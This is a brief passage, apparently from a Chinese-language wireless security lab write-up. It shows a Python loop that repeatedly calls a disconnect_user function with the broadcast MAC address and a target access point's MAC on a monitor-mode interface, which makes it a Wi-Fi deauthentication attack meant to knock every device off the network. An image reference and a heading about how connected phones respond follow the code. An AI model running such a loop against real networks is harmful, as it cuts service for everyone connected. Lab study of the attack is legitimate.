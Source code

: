 ```python
    target_mac = "ff:ff:ff:ff:ff:ff"  # 设置为广播地址，断开所有设备
    ap_mac = "8a:42:91:be:dc:97"       # 目标 AP 的 MAC 地址 54:D7:E3:41:A5:81 /82:1C:6D:AA:EC:BF
    interface = "wlan0mon"         
    while(True):
        disconnect_user(target_mac, ap_mac, interface)
```

![](./img/exp3-1代码运行效果.png)

连接网络的移动端的反应：
